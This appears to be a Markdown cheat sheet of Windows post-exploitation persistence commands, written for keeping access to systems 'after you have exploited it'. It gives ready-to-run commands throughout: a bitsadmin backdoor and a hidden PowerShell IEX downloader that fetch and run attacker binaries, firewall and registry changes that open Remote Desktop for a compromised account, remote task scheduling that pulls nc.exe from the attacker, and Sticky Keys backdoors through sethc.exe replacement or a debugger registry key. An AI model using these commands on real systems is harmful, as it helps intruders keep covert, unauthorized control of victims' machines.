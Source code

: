 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.


### BITSADMIN Backdoor
Slide #49 of [this slide deck](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607) starts a method of using the `bitsadmin` command (http://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx) to create a backdoor. The steps are as follows:

#### Creating the backdoor
<pre>
c:\> bitsadmin /create mybackdoor
c:\> bitsadmin /addfile mybackdoor http://[AttackerIP]/[AttackerBinary.exe] c:\windows\temp\[AttackerBinary.exe]
c:\> bitsadmin /SETMINRETRYDELAY mybackdoor 86400
c:\> bitsadmin /SETNOTIFYCMDLINE mybackdoor c:\windows\temp\[AttackerBinary.exe] NULL
</pre>

#### Checking to see if everything is set
<pre>
c:\> bitsadmin /getnotifycmdline mybackdoor
c:\> bitsadmin /listfiles mybackdoor
c:\> bitsadmin /RESUME mybackboor
</pre>


### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_. 


### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system. 


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.

    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below. 

    <pre>
     Windows Registry Editor Version 5.00
     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
     "fDenyTSConnections"=dword:00000000
     "TSEnabled"=dword:00000001
     "TSUserEnabled"=dword:00000000
    </pre>

 1. On the remote system, execute the following commands:
      
    <pre>c:\> sc config termservice start= auto sc config termservice start= auto
    c:\> regedit /s enable_ts.reg
    c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb
    c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb
    c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini
    c:\> gpupdate /Force
    c:\> net start "terminal services"
    </pre>


### Scheduler
The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.

<pre>
c:\> net use \\[TargetIP]\ipc$ password /user:username
c:\> at \\[TargetIP] 12:00 pm command
</pre>

An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`


### Sticky Keys (Requires reboot)
Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`. 

Some caveats:
* If NLA (Network Layer Authentication) is enabled, this won't work
* If RDP (Remote Desktop Protocol) is disabled, this won't work


### Sticky Keys (No reboot)
This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place. 
* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`
* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)
* For the "Debugger" REG_SZ, make it have a value of your binary
* Press SHIFT 5 times and your binary should be executed